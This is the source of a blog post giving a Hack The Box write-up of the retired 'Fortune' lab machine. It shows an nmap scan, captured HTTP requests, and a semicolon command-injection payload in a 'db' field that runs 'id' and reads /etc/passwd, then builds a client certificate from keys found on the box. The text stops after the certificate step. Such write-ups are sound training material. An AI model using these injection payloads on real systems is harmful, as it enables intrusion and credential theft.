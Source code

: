 ```yaml
---
layout: post
title:  "Hack The Box: 'Fortune' Writeup"
image: ''
date:   2019-08-05 00:09:53
tags:
- hackthebox
- pkcs12 certificate
- RCE
- nfs share
- pgadmin4
- sqlite3
- crypto

description: ''
categories:
- Hack The Box
---
```


<style>
applause-button {
		margin: auto;
	}

	.header-site .site-title {
      	padding-top: 5px;
      	color: white;
      	text-align: center;
      	font-weight: bold;
      	padding-left: 19px;
	}
	
	.fortune-img {
		max-width: 75%;
	}

	.post-content img { 
		margin: 1.875rem auto;
		display: block;
	}
</style>
  <!-- add the button style & script -->
  <link rel="stylesheet" href="/assets/css/applause-button.css" />
  <script src="/assets/js/applause-button.js"></script>

<img src="/assets/img/writeups/HTB-FORTUNE/HTB-FORTUNE-BADGE.PNG" class="fortune-img" alt="Hack The Box - Fortune">

<p><br></p>
### TL;DR 
There might not necessarily be anything "new" in this box if you've done all of the previous ones, but it's my absolute personal favorite. Thank you so much <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a> for creating it. I was so sad when it retired! 😢
<p><br></p>

### Overview

The `Fortune` machine on Hack The Box (created by <a href="https://www.hackthebox.eu/home/users/profile/46317">AuxSarge</a>) is a retired 50 point OpenBSD machine with some pretty interesting parts to it. If you have completed all of the previous boxes on HackTheBox, then `Fortune` should be pretty simple, as there is nothing particularly new introduced.
<p><br></p>

The box starts with simple web enumeration to locate RCE found in the site's `db` variable, which occurs when a semi colon (;) is appended to the end of the `db`. Next, some files are located via the RCE that can be used to create a PKCS12 certificate which permits access to port 443. From there, an SSH key is located to access the user called `nfsuser` and escalate to the user `charlie` by mounting a newly found nfs share and using `su` to access `charlie` with a local user that has the same UID. SSH keys for `charlie` are then used to access the user via SSH and enumerate further.
<p><br></p>

Finally, there is a `pgadmin4` database running on the box which contains hashes for the root password. A file called `crypto.py` is utilized for `pgadmin4's` encoding/decoding process, and can be used here to decode the root password and ultimately grab the flag.
<p><br></p>

### Nmap Scan

<div class="highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@rattLR:~/HTB-FORTUNE# nmap -sC -sV -A -Pn 10.10.10.127

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-24 11:27 EST
Nmap scan report for 10.10.10.127
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (EdDSA)
80/tcp  open  http       syn-ack OpenBSD httpd
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https? syn-ack
|_ssl-date: TLS randomness does not represent time
</code></pre></div></div>

So, it appears port `443` is HTTPS (as expected), but it requires an SSL certificate to access it. I'll leave it alone for now because of this. However, port `80` proves to be quite interesting.
<p><br></p>

### Web Enumeration

Here's what I discovered upon navigating to `http://10.10.10.127/` in my browser:

<img src="/assets/img/writeups/HTB-FORTUNE/fortune-homepage.PNG" class="fortune-img" alt="Hack The Box - Fortune Homepage">

Hmm... 

Let's try capturing a request with `Burp Suite`!

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes
```

The `db` variable looks pretty spicy! 🌶️

After running `wfuzz`, I discovered I could append a semi colon (;) to `db` and execute commands on the box, like so:

```
POST /select HTTP/1.1
Host: 10.10.10.127
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

db=fortunes; id
```

And the response:
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=utf-8
Date: Wed, 24 Jul 2019 12:27:19
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p><pre>

uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)


</pre><p>
<p>Try <a href='/'>again</a>!</p>
</body>
```

Nice! We have code execution. Let's have a look around to see what else we can find. 
<p><br></p>

### Enumerating Users & Obtaining User.txt

(Shortened output for readability):

```
db=fortunes;cat /etc/passwd

charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

Well, well, well... It would appear we have three different users here. They are `charlie`, `bob`, and `nfsuser`. Immediately, `nfsuser` appears interesting to me given the naming convention. The username `nfsuser` can easily be attributed to an `nfs share`! Now, this is great and all, but I still don't know how to access these users, nor am I able to add my own `ssh` keys..
<p><br></p>

However, I did some snooping around and discovered some files in the user `bob`'s home directory (`/home/bob`). There was one cert file (`intermediate.cert.pem`) and one key file (`intermediate.key.pem`), which can be converted to a PKCS12 certificate. I used `openssl` to create the certificate, like so:

```
openssl pkcs12 -export -out fortune.htb.p12 -in intermediate.cert.pem -inkey intermediate.key.pem
```
I was then able to import the certificate with Firefox and access the (now unrestricted) `HTTPS` port, `443`.
<div align="center">
	<h3> Thanks for reading! </h3>
</div>
<div align="center">
<!-- add the button! -->
<applause-button style="width: 58px; height: 58px;" color="#5d4d7a"/>
</div>
<div align="center">
	<a href="https://www.hackthebox.eu/profile/39047">
		<img htb-logo="image" src="https://www.hackthebox.eu/badge/image/39047" alt="Hack The Box">
	</a>
</div>